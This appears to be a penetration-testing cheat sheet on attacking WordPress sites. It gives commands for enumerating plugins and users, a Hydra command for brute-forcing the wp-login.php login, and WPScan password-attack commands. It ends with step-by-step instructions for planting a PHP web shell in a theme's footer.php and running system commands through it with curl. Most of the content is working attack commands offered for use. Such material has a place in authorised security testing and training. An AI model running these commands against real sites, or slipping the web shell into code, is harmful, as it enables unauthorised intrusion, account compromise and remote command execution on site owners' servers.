 ### **INTRODUCTION**

WordPress is an open-source content management system (CMS) that enables users to create, manage, and modify content on a website without needing specialized technical knowledge. Originally launched in 2003 as a platform primarily for blogging, WordPress has evolved into a robust tool for building various types of websites, from simple blogs to comprehensive business sites and online stores.

### **PLUGIN ENUMERATION TECHNIQUES**

Vulnerable plugins are a primary attack vector in WordPress and represent a significant security risk.

1.  Enumerating Plugins with WPScan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ -e vp --plugins-detection aggressive`
    
2.  Identifying Plugins with a Custom Bash Script:
    
    ```bash
    for plugin in $(cat pluginlist.txt); do 
      response=$(curl -s -o /dev/null -w "%{http_code}" https://[WORDPRESS-DOMAIN]/wp-content/plugins/$plugin/)
      if [[ "$response" -eq 200 ]]; then 
        echo "Plugin found: $plugin"; 
      fi; 
    done
    ```
    
3.  Detecting Plugins with Nmap Scripts:  
    `nmap -sV --script http-wordpress-plugins https://[WORDPRESS-DOMAIN]/`
    
4.  Scanning Plugins with Metasploit:  
    `auxiliary/scanner/http/wordpress_plugins`
    
5.  Brute Forcing Plugin Paths with Feroxbuster:  
    `feroxbuster -u https://[WORDPRESS-DOMAIN]/wp-content/plugins -w plugins.txt`
    

### **USER ENUMERATION TECHNIQUES**

1.  Enumerating Users with a Bash Script:
    
    ```bash
    for i in {1..100}; do 
       curl -s -L -i https://[WORDPRESS-DOMAIN]/wordpress?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; 
    done
    ```
    
2.  Bypassing Restrictions for User Enumeration:  
    `http://[WORDPRESS-DOMAIN]/?x&author=1`
    
3.  Brut-forcing Usernames with Hydra:  
    `hydra -L userlist.txt -p test "https://[WORDPRESS-DOMAIN]/" http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`
    
4.  Scanning Users with WPScan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ --enumerate u`
    
5.  Enumerating Users with Metasploit:  
    `use auxiliary/scanner/http/wordpress_enum_users`
    

### **WPSCAN COMMANDS**

1.  Performing a Comprehensive Website Scan:  
    `wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://[WORDPRESS-DOMAIN]/ --plugins-detection aggressive --api-token [API-TOKEN] --passwords /usr/share/seclists/Passwords/probable-v2-top1575.txt`
    
2.  Conducting a Detailed Vulnerability Scan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log`
    

### **INJECTING A SHELL INTO A WORDPRESS THEME**

To establish a reverse shell through a WordPress theme, you modify theme files to execute arbitrary system commands. This can be done by adding PHP code to template files like `404.php` or `footer.php`. Follow these detailed steps to implement and use a reverse shell:

1.  Choose a template file within the WordPress theme that is accessed frequently. For example, `footer.php` is included on every page, making it a good place.
    
2.  Insert the following PHP code at the top of the file:  
    `<?php system($_GET['hackfast']); ?>`
    
3.  Replace the original file with your modified version on your WordPress server. Make sure you back up the original file first in case you need to restore it later.
    
4.  To execute commands, Access the modified file through a browser or use a command-line tool like curl:  
    `curl -s 'https://[WORDPRESS-DOMAIN]/path/to/modified/template?hackfast=[URL_ENCODED_COMMAND]'`
    
5.  URL encode your commands to ensure they are interpreted correctly by the server. For instance, spaces are represented as `%20` and pipes `|` as `%7C`.
    
6.  Here an example of encoding and executing the command `id | grep uid | cut -f4 -d">"`:  
    `curl -s https://[WORDPRESS-DOMAIN]/path/to/modified/template?hackfast=id%20%7C%20grep%20uid%20%7C%20cut%20-f4%20-d%22%3E%22`
    